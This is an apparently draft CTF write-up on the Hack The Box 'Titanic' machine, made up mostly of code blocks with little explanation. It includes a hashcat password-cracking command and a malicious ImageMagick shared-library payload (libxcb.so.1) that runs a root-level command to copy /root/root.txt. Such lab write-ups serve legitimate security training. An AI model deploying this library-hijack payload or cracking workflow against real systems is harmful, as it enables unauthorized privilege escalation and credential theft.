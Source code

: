 ```yaml
---
title: "HTB Lab | Linux - Titanic"
date: 2025-06-25T23:15:00+07:00
draft: true
tags: ["Linux", "HTB", "HTB Machines", "Web", "Hashcat", "Local File Inclusion", "ImageMagick"]
categories: ["CTF Writeups"]
summary: "How I solved Hack The Box's vulnerable machine \"Titanic\"."
---
```

[![htb-titanic-1.png](htb-titanic-1.png)](https://app.hackthebox.com/machines/648)

```sh
echo -n "2d149e5fbd1b20cf31db3e3c6a28fc9b" | xxd -r -p | base64
```

```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
	system("cp /root/root.txt root.txt; chmod 777 root.txt");
    exit(0);
}
EOF
```

# Learned Skills


